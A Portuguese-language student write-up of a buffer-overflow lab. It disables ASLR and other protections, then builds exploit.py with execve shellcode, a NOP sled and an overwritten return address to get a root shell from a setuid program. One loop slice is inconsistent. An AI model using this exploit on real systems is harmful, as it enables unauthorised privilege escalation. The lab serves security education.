

# Trabalho realizado na Semana #5

## Task 1: Turning Off Countermeasures

Como os sistemas operativos atuais apresentam vários mecanismos de segurança que dificultam o sucesso de um ataque buffer-overflow, começamos por desativar algumas das proteções do sistema, nomeadamente, a randomização do espaço de endereços (que dificulta o cálculo de endereços necessários para o nosso ataque) e a proibição ao nível da shell de ser executada por processos com Set-UID. 


## Task 2.1: Getting Familiar with Shellcode

Os terminais são amplamente utilizados na maioria dos ataques buffer-overflow para executar programas privilegiados. Assim sendo, começamos por executar um simples programa que abre uma shell usando o comando `execve`. 

De seguida, compilamos e corremos o ficheiro `call_shellcode.c`, onde dois binários foram criados: `a32.out` - versão 32-bit, e `a64.out` - versão 64-bit. Esta compilação usa a opção `execstack`, pelo que o shellcode é invocado desde a stack.


Em todos os casos, um terminal foi aberto no diretório atual, onde o programa foi executado.


## Task 2.2: Understanding the Vulnerable Program

Nesta etapa, exploramos o programa `stack.c`, que apresenta uma vulnerabilidade buffer-overflow. De facto, abre-se e lê o ficheiro *badfile* (com um máximo de 517 bytes), passando este input para a função `bof()`. Esta, por sua vez, realiza uma `strcpy` para o `buffer`. No entanto, como o `buffer` apenas apresenta um tamanho de 100 bytes e `strcpy` não verifica os limites do buffer, ocorre um **buffer-overflow**.

De seguida, compilamos o programa, desativando o *StackGuard* e, após a sua compilação, mudamos o owner do programa para `root` e ativamos o `Set-UID`.




## Task 3: Launching Attack on 32-bit Program

Para explorar a vulnerabilidade identificada, analisamos como a stack se encontra estruturada:


Ora, para que o ataque tenha sucesso, é importante calcularmos a diferença entre o endereço base do buffer e o endereço da instrução de retorno.

Para isso, criamos o ficheiro `badfile`  e executamos o código vulnerável em modo debug, obtendo os endereços do buffer e do edp:

<table>
  <tr>
    <td></td>
    <td></td>
  </tr>
</table>

Calculando a diferença, obtemos uma diferença de **108 bytes** entre o endereço base do buffer e o endereço da instrução de retorno. 

Uma vez obtida a diferença, basta inserirmos na `badfile` o conteúdo que pretendemos dar overwrite no buffer. Para isso, recorremos ao código `exploit.py`:

1. Na variável `shellcode` mudamos o shellcode em 32-bits disponibilizado no ficheiro `call_shellcode.c`:

```c
shellcode= (
 "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
 "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
 "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')
```

2. Preenchemos o ficheiro com operações `NOP`, para que saltasse e executasse o nosso shellcode, que estará no final do ficheiro:

```py
content = bytearray(0x90 for i in range(517)) 
```

3. Colocamos o nosso shellcode no final do badfile:

```py
start = 517 - len(shellcode)         
content[start:start + len(shellcode)] = shellcode
```

4. Modificamos o endereço de retorno para apontar para as operações `NOP` que, consequentemente, dariam ao `shellcode`:

```py 
ret    = 0xffffcb48 + 200 
```

5. Por fim, escrevemos o endereço de retorno na posição relativa ao buffer, à custa da diferença calculada na etapa anterior:

```py 
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
```

Gerando o `badfile` com o conteúdo que pretendíamos, executamos o programa vulnerável, que lançou uma shell com permissões root, tal como previsto. 


## Task 4: Launching Attack without Knowing Buffer Size

Esta etapa é muito semelhante à anterior, no entanto, desta vez o tamanho do buffer é desconhecido, pelo que não conseguimos calcular a diferença entre o endereço base do buffer e o endereço da instrução de retorno. 

Assim sendo, podemos reutilizar a maior parte do código python da tarefa anteiror, apenas adaptando o passo 5, onde, em vez de escrever numa só posição o endereço de retorno, escrevemos numa região do array, de modo a garantir a execução do nosso shellcode:

```py
for offset in range(50):
    content[offset*L:offset*4 + L] = (ret).to_bytes(L,byteorder='little') 
```


Mais uma vez, geramos o `badfile` com o conteúdo que pretendíamos, executamos o programa vulnerável, que lançou uma shell com permissões root, tal como previsto. 


